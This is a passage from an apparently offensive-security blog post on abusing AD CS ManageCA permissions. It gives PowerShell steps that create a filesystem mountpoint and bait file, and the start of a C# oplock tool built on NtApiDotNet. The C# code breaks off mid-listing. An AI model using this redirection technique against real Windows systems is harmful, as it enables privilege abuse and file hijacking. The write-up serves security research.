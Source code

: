 Execute the following PowerShell cmdlet to create a mountpoint from `C:\Workspace\Mountpoint` to `C:\Workspace\Bait`.

```powershell
Import-Module ".\NtApiDotNet.dll" -ErrorAction Stop
[NtApiDotNet.NtFile]::CreateMountPoint("\??\C:\Workspace\Mountpoint\", "\??\C:\Workspace\Bait\", $null)
```

![image-20231025021656627](/assets/posts/2023-12-03-ad-cs-new-ways-to-abuse-manageca-permissions/image-20231025021656627.png)

**(3) Prepare a old target file.**

Execute the following PowerShell cmdlet to create a `C:\Workspace\Mountpoint\target.txt` file, which serves as the previously mentioned "old file." 

```powershell
"This is the content of target.txt" | Set-Content -Path "C:\Workspace\Mountpoint\target.txt"
```

Due to the mountpoint we have already established from `C:\Workspace\Mountpoint` to `C:\Workspace\Bait`, `target.txt` will be created at `C:\Workspace\Bait\target.txt`. As shown in the image below.

![image-20231025021800441](/assets/posts/2023-12-03-ad-cs-new-ways-to-abuse-manageca-permissions/image-20231025021800441.png)

**(4) Create SetOpLock project.**

With the help of James Forshaw's [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet), we have created a C# project called "SetOpLock" to iteratively access the `C:\Workspace\Mountpoint\target.txt` file and establish OpLock. The relevant code is as follows.

```c#
using System;
using System.Runtime.InteropServices;
using NtApiDotNet;

using FILETIME = System.Runtime.InteropServices.ComTypes.FILETIME;

namespace SetOpLock
{
    internal class Program
    {
        static void Main(string[] args)
        {
            IntPtr INVALID_HANDLE_VALUE = new IntPtr(-1);
            WIN32_FIND_DATA findFileData = new WIN32_FIND_DATA();
            WIN32_FIND_DATA findFileData2 = new WIN32_FIND_DATA();

```